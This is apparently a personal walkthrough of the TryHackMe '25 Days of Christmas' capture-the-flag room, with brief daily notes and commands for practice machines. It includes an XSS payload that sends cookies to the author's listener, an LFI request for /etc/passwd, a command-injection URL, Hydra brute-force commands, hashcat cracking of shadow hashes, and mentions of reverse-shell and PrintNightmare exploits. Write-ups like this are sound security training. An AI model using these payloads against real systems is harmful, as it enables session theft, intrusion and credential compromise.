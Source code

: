 #hashcat-etc-passwd #find #wireshark #nfs

https://tryhackme.com/r/room/25daysofchristmas

---
##### Day 1 - Inventory Management
I created an account an I base64 decoded the cookie to see the patern. Then I used the patern to impersonate `mcinventory`'s profile

##### Day 2 - Arctic Forum
I used gobuster to find the `/sysadmin` page. In the source code on `/sysadmin'`, I've found the github project name with the credentials

##### Day 3 - Evil Elf
I opened the wrong file like a retard and I go stuck 20 minutes.Then I found the `998th` packet with `CTRL+G` and I've found the responses with the `CTRL+F` in `Packet details` 
![[Screenshot_2024-05-21_20-00-59.png]]
For the password hashed, it was found in a /etc/passwd file:
```shell
hashcat -m 1800 -a 0 hashfile rockyou.txt
```
##### Day 4 - Training
A big joke
To find the name of a file with a specific content, type `-H`:
```shell
find ./ -exec grep -H "password" {} \;
```

To find an ip in a file:
```shell
find . -exec grep -HEo '([0-9]{1,3}\.){3}[0-9]{1,3}' {} \; 2> /dev/null
```
The noob way: `[0-9][0-9]\.[0-9]\.[0-9]\.[0-9][0-9]`

##### Day 5 - Ho-Ho-Hosint
Osint - Google - waybackmachine

##### Day 6 - Data Elf-iltration
I can extract data downloaded
![[Screenshot_2024-05-21_22-51-16.png]]

##### Day 7 - Skilling Up
Nmap showed me most of the informations the second day. The first day, ports were closed
```shell
nmap -A -p1-1000 [host]
```

##### Day 8 - SUID Shenanigans
SUID
```shell
find / -user igor -perm 4000 -ls
```

##### Day 9 - Requests
Just had to go on `10.10.169.100:3000/[letter]` which gave me a letter for the flag and another letter for the url to get the next

##### Day 10 - Metasploit-a-ho-ho-ho
I used the `metasploit` exploit `multi/http/struts2_content_type_ognl` to get a reverse shell and I go santa's creds on his home: `santa:rudolphrednosedreindeer`

##### Day 11 - Elf Applications
![[Screenshot_2024-06-02_15-34-47.png]]
I go mysql creds on the ftp
```shell
mysql -u root -h 10.10.31.3 -p
```
The password is `ff912ABD*`

In the database, I got admin user creds `admin:bestpassword`

I had to connect to NFS on port `2049`
```shell
mkdir ./mnt
sudo mount 10.10.31.3:/opt/files ./mnt
```
The file `creds.txt` contain a password `securepassword123`


##### Day 12 - Elfcryption
For the md5sum
```
cat note1.txt.gpg | md5sum
```

For the `.gpg`
```shell
gog -d note1.txt.gpg
```
with password `25daysofchristmas` given in hints

For the second note:
```shell
openssl rsautl -decrypt -inkey private.key -in note2_encrypted.txt -out note2_decrypted.txt
```

##### Day 13 - Accumulate
Enumeration gave me `/retro`

This is a retro gaming blog written by `Wade` and he left a note in a comment on one of his articles with a probable password: `parzival`

Creds: `Wade:parzival`

```shell
xfreerdp /v:10.10.45.206 /u:Wade /p:parzival /dynamic-resolution /kbd:0x0000080c /drive:share,/tmp
```

I used the `PrintNightmare` cve to get a root account

##### Day 14 - Unknown Storage
Information are on the S3 bucket:
https://advent-bucket-one.s3.amazonaws.com/

##### Day 15 - LFI
Capture the page with burp made me intercept the loading of the notes, I've just change it to try to do some LFI and it worked
```text
http://10.10.112.37/get-file/..%2f..%2f..%2f..%2f..%2fetc%2fpasswd
```

And it gave me the user charlie

The `/etc/shadow` file was readable so I got his hashed password

```shell
hashcat -a 0 -m 1800 -O hash /usr/share/wordlists/rockyou.txt
```

The creds are `charlie:password1`

##### Day 16 - File Confusion
**Command to unzip all files**
```shell
unzip \*.zip
```

**Count files with specific metadata**
```shell
file *.txt
```

**Count files in directory**
```shell
ls -1 | wc -l
```

**Command for the password:**
```shell
find ./ -type f -exec grep -H "pass" {} \;
```

##### Day 17 - Hydra-ha-ha-haa
**Post form**
```shell
hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.6.131 http-post-form "/login:username=molly&password=^PASS^:Your username or password is incorrect."
```

**ssh**
```shell
hydra -l molly -P /usr/share/wordlists/rockyou.txt ssh://10.10.6.131
```

##### Day 18 - ELF JS
I created an account
Setup a python server
```shell
python3 -m http.server:5050
```
and created a XSS payload to send back the cookie to my python server
```shell
<script>document.location="http://10.14.79.56:5050/?"+document.cookie</script>
```
The admin comes on the page every 2/3 min

##### Day 19 - Commands
The payload
```shell
http://10.10.142.139:3000/api/cmd/cat%20%2fhome%2fbestadmin%2fuser.txt
```

##### Day 20 - Cronjob Privilege Escalation
Nmap for the first

Hydra for sam's password (`chocolate`)
```shell
hydra -l sam -P /usr/share/wordlists/rockyou.txt ssh://10.10.97.143 -s 4567
```

For the crontab, I added the following in `/home/scripts/clean_up.sh`
```shell
cat /home/ubuntu/flag2.txt > /tmp/flag
```

##### Day 21 & 22 
Read the assembly operations
```shell
r2 -d [binary]
aa
pdf @ main
```

